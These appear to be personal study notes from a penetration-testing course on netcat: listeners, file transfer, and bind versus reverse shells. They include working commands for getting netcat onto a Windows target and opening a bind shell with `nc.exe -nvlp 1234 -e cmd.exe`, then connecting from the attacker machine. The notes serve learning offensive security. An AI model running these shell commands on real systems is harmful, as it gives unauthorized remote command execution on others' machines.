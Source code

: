 #### Setup a listener ####
+ `nc -nvlp <PORT>`
	+ DNS resolve is disabled, Verbose is on, is a listener, with port specified after the -p
+ When they are connected, can send messages by typing characters 

#### Transfer a File ####
+ Can make a file, for example: `vim test.txt` (or any other file type)
+ After they are connected, can do `nc -nv <IP> <PORT> < test.txt` 

### Bind Shells ###

#### Shell ####
+ A utility that allows you to execute commands on the system
+ Remote shell allows you to execute commands **remotely** 

#### Bind Shells ####
+ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system 
+ A netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener 
	+ Will be done via the `-e` option 
![[Screen Shot 2022-11-02 at 2.01.24 PM.png]]

+ <mark style="background: #FF5582A6;">Reverse shells are much better than bind shells</mark> 
	+ Would need to setup a netcat listener on the target system with a bind shell, which has issues
	+ From the perspective of network security, in bound traffic is mostly blocked by the firewall 
		+ So if the attacker is sending something to the listener from this perspective, a firewall in the middle could stoop it 
	+ <mark style="background: #FFF3A3A6;">Inbound traffic is much more suspect in a network</mark>

#### Making a Bind Shell ####
+ If the target machine is <mark style="background: #ADCCFFA6;">windows</mark>, will need to **transfer over netcat** 
	+ Will go where the binary is located: `cd /usr/share/windows-binaries`
	+ Start a webserver using `python -m SimpleHTTPServer 80`
	+ On the target, can now navigate to a browser, or use `certutil`
+ Will start a <mark style="background: #BBFABBA6;">listener</mark> on the <mark style="background: #BBFABBA6;">target machine</mark>:
	+ `./nc.exe -nvlp 1234 -e cmd.exe`
		+ So it will listen on port 1234, and when there is a connection, cmd.exe will be executed
+ Will <mark style="background: #FF5582A6;">connect</mark> from the <mark style="background: #FF5582A6;">attacker machine</mark> to the <mark style="background: #FF5582A6;">target machine</mark>:
	+ `nc -nv <IP_Target> 1234`
+ Now have access to the target machine:
	+ Can do `whoami` to see the privileges 
	+ `dir` to see what is in the directory 
	+ Etc

### Reverse Shell ###

#### Reverse Shells ####
+ A reverse shell is a type of remote shell where the target connects directly o a listener on the attackers system, consequently allowing for execution of commands on the target system 
![[Screen Shot 2022-11-02 at 2.26.16 PM.png]]
+ Do not need to set up a listener on the target system 
+ And the traffic is less likely to be blocked if the target is initiating the traffic
+ The attackers IP will need to be sent to the client, so this needs to be removed quickly 
